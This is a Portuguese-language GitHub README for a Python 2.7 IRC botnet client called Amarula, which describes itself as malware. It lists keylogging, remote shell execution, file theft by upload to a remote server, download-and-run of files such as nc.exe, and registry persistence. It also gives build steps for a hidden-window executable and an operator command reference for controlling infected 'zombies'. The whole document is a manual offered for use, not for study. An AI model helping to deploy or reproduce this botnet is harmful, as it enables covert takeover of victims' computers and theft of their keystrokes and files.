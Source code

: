 # Amarula IRC Botnet v1.0
<h4> Abacatch Version </h4>


Botnet client feito em **Python 2.7** *(written in Python 2.7)* <br>
Testado em: **Windows XP, 8, 10**, *(tested on)*<br>
Escrito por: **Carlos Néri Correia** *(coded by)* <br>
Versão: **1.0** *(version)*

## Como funciona? *(how it works)*
O Amarula IRC Botnet é um *botnet client* codado em Python 2.7. O malware nada mais é do que um cliente IRC, especialmente construído, que se conecta a um server IRC e entra em um canal como se fosse um usuario comum.
O Administrador, por sua vez, também estará conectado ao canal, mas através de um programa de cliente IRC normal (como o Hexchat), de forma que, toda vez que o Adm envia uma mensagem para o canal, o BOT interpreta essa mensagem como um comando a ser executado no sistema. São diversas as vantagens de administrar os BOTs através do IRC - Os servers são ativos 24h, não é necessário abrir portas no PC, o IRC é um protocolo teoricamente confiável, entre outras.

## Funções *(features)*
- Executar comandos shell *(shell command execution)* <br>
- Keylogger - Captura de teclas digitadas pelo cliente em tempo real *(real-time keylogging)* <br>
- Listar diretório atual do bot *(list current working directory)* <br>
- Listar todos os arquivos de um *diretorio (list all directory files)* <br>
- Obter ip local e externo do bot *(get local and WAN bot IP)* <br>
- Download de arquivos da web via HTTP *(HTTP web downloading)* <br>
- Upload de arquivos para servidor web via HTTP *(upload bot files to web server)* <br>
- Envio de logs para servidor remoto *(send logs to remote server)* <br>
- Deletar arquivos no BOT *(delete files)* <br>
- Executar arquivos no BOT *(run files)*
- Persistência *(persistence)*<br>

## Instalação *(install)*
    $ pip install requests
    $ pip install pypiwin32

**Download pyHook**
https://sourceforge.net/projects/pyhook/

## Configuração *(setup)*
Algumas variáveis precisarão ser definidas ou alteradas, para que a conexão do BOT com o IRC seja feita corretamente. <br>
Toda a administração dos BOTs será feita através de um cliente IRC comum. O Administrador enviará comandos para o canal onde os BOTs estarão conectados e intrepretarão as mensagens enviadas como comandos. 

***VARIÁVEIS:*** *(variables)* <br>
![alt tag]("https://ibb.co/hKPyzR" "Variaveis")

***ircServer*** *(sets IRC server address)* <br>
Endereço do servidor IRC ao qual o BOT irá se conectar. <br>

***ircPwdCha*** *(sets IRC channel password)*<br>
Define o password do canal IRC ao qual o bot irá se conectar. <br>
Caso o canal não possua password, deixar em branco ("") <br>
Importante setar um password no canal para que outras pessoas não entrem e possam controlar os seus bots.

***ircChanne*** *(sets IRC channel)* <br>
Canal do IRC ao qual o bot irá se conectar. <br>
É interpretando as mensagens enviadas para o canal que o BOT irá executar os comandos internamente no cliente.

***botPass*** *(sets password to activate and connect to the BOTS)* <br>
Define um passoword para ativar, conectar e controlar os bots no canal <br>
 
***botAdmi*** *(Admin Name - NOT OBLIGATORY)* <br>
Define um nome pelo qual os zumbis te chamarão <br>
Não é obrigatório. <br>

***urlUpload*** *(Upload page on remote server)* <br>
Página de upload no servidor remoto, para a função de envio remoto. <br>
Será criado um arquivo *capt-(nome do PC).txt* na mesma pasta de upload.php, no servidor.  

***ldir*** *(sets local directory, dropping directory)* <br>
Diretório local, onde será salvo o arquivo de log. <br>
Diretório para o qual o .exe se copia para ser executado em persistência quando a máquina reiniciar.



## Compilar *(compile)*

    $ pyinstaller -w amarula.py --onefile
    
## Controlando os bots *(usage)*

- [dir] para vizualizar o diretorio atual do zumbi <br>
		
		$ USAGE: ls <nickdobot> <br>
		$ Ex: ls DESKTOP-PC-3456

- [ls] para listar o conteudo da pasta atual <br>
		
		$ USAGE: ls <nickdobot> <br>
		$ Ex: ls DESKTOP-PC-3456

- [ip] para mostrar os ips do bot
		
		$ USAGE: ls <nickdobot> 
		$ Ex: ip DESKTOP-PC-3456
	
- [upload] para fazer upload de arquivos do bot
  Será feito o upload para o servidor web definido na variável urlUpload 
		
		$ USAGE: $ USAGE: upload <Arquivo> <nickdobot>
		$ Ex: upload leak.txt DESKTOP-PC-3456

- [download] para baixar arquivos da web para o zumbi
		
		$ USAGE: $ USAGE: download <link> <nickdobot>
		$ Ex: download http://seusite.com/nc.exe DESKTOP-PC-3456

- [run] para executar um programa ou arquivo.

		$ USAGE:  run <programa> <nickdobot>
		$ Ex: run calc.exe DESKTOP-PC-3456

- [delete] para excluir arquivos
		
		$ USAGE: delete <arquivo> <nickdobot>
		$ Ex: delete leak.txt DESKTOP-PC-3456

- [start keylog] para ativar o keylogger
  O arquivo de log será upado para o servidor web a cada 100 caracteres digitados. <br>
  Será iniciado um novo processo no sistema do BOT para o keylogger.		

		$ USAGE: keylog start <nickdobot>
		$ Ex: keylog start DESKTOP-PC-3456


- [stop keylog] para desativar o keylogger
		
		$ USAGE: keylog stop <nickdobot>
		$ Ex: keylog stop DESKTOP-PC-3456

- [persistence]   para instalar persistencia no registro do Windows
  Instala a persistencia, iniciando o bot toda vez que o PC do cliente iniciar <br>
		
		$ USAGE: persistence <nickdobot>
		$ Ex: persistence DESKTOP-PC-3456

- [shell] para executar comandos no terminal.
		
		$ USAGE: shell <comando> <nickdobot>
		$ Ex: shell echo HACKED hack.txt && DIR hack.txt DESKTOP-PC-3456
		
- [sair] para que os bots ativos saiam do canal <br>

		$ USAGE: sair		
		
- [sair] matar todos os BOTs ativos <br>
  Todos os zumbis ativos desconectam-se do IRC
		
		$ USAGE: matar		
